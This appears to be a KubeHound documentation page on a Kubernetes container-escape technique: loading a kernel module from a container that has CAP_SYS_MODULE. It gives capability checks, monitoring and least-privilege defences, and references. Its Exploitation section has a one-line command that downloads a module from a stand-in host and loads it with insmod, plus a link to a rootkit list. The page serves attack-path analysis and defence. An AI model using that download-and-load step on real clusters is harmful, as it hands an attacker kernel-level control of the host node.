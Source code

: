 ```yaml
---
title: CE_MODULE_LOAD
---
```


<!--
id: CE_MODULE_LOAD
name: "Container escape: Load kernel module"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# CE_MODULE_LOAD

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Load a kernel module from within an overprivileged container to breakout into the node.

## Details

Container isolation mechanisms are restricted to user-space execution. If an attacker gains kernel level execution via loading a kernel module or exploiting a kernel vulnerability, all isolation mechanisms can be bypassed. If a container is run with `--privileged` or if `CAP_SYS_MODULE` is explicitly enabled via the `securityContext` setting, kernel modules can be loaded from within the container, leading to a trivial and powerful container escape.

## Prerequisites

Execution within a container process with the `CAP_SYS_MODULE` capability enabled.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setuptest-cluster/attacks/CE_MODULE_LOAD.yaml).

## Checks

From within a running container, determine whether it is running with `CAP_SYS_MODULE`:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff:	00000000a80425fb

# Decode the capabilities (on current box or offline) and check for CAP_SYS_MODULE
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=00000000a80425fb | grep cap_sys_module
```

## Exploitation

Download a pre-compiled kernel module suitable for the target OS/architecture (see [examples](https://github.com/milabs/awesome-linux-rootkits)) and load from within the container:

```bash
curl -O exploit.delivery/bad.ko
insmod bad.ko
```

## Defences

### Monitoring

+ Monitor for unfamiliar kernel modules loaded or kernel modules loaded from within a running pod which should both be high-fidelity signals of malicious activity.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with additional powerful capabilities.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [EscapeModuleLoad](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/escape_module_load.go)

## References:

+ [Compendium Of Container Escapes](https://i.blackhat.com/USA-19/Thursday/us-19-Edwards-Compendium-Of-Container-Escapes-up.pdf)
+ [Linux Privilege Escalation - Exploiting Capabilities - StefLan's Security Blog](https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/)
+ [Module Load Breakout](https://raesene.github.io/blog/2023/08/06/fun-with-privileged-container-breakout/)